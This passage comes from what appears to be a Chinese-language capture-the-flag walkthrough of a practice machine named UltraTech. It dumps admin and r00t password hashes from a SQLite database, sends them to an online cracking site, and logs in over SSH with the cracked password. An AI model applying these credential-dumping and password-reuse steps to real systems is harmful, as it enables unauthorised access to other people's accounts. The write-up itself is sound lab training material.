 ```
┌──(kali㉿kali)-[~/Desktop/oscp/ultraTech]
└─$ sqlite3 utech.db.sqlite 
SQLite version 3.34.1 2021-01-20 14:10:07
Enter ".help" for usage hints.
sqlite> .database
main: /home/kali/Desktop/oscp/ultraTech/utech.db.sqlite r/w
sqlite> .tables
users
sqlite> select * from users
   ...> ;
admin|0d0ea5111e3c1def594c1684e3b9be84|0
r00t|f357a0c52799563c7c7b76c1e7543a32|0
```

从`.sqlite`文件中，我们能够获得两个用户的散列。我们可以尝试在[破解站](https://crackstation.net/)破解它们，并获得两个账户的密码。

现在，我们有了一对用户名和密码，并且知道机器上的端口 22 是打开的。我们可以快速尝试 SSH 进入机器:

```
┌──(kali㉿kali)-[~/Desktop/oscp/ultraTech]
└─$                                                                                                     ssh r00t@10.10.187.174 
The authenticity of host '10.10.187.174 (10.10.187.174)' can't be established.
ECDSA key fingerprint is SHA256:RWpgXxl3MyUqAN4AHrH/ntrheh2UzgJMoGAPI+qmGEU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.187.174' (ECDSA) to the list of known hosts.
r00t@10.10.187.174's password: 
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-46-generic x86_64)
​
 * Documentation:  [https://help.ubuntu.com](https://help.ubuntu.com)
 * Management:     [https://landscape.canonical.com](https://landscape.canonical.com)
 * Support:        [https://ubuntu.com/advantage](https://ubuntu.com/advantage)
​
  System information as of Fri Apr 23 16:15:12 UTC 2021
​
  System load:  0.16               Processes:           105
  Usage of /:   24.4% of 19.56GB   Users logged in:     0
  Memory usage: 72%                IP address for eth0: 10.10.187.174
  Swap usage:   0%
​
​
1 package can be updated.
0 updates are security updates.
​
​
​
The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
​
Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.
​
r00t@ultratech-prod:~$ sudo -l
[sudo] password for r00t: 
Sorry, user r00t may not run sudo on ultratech-prod.
```
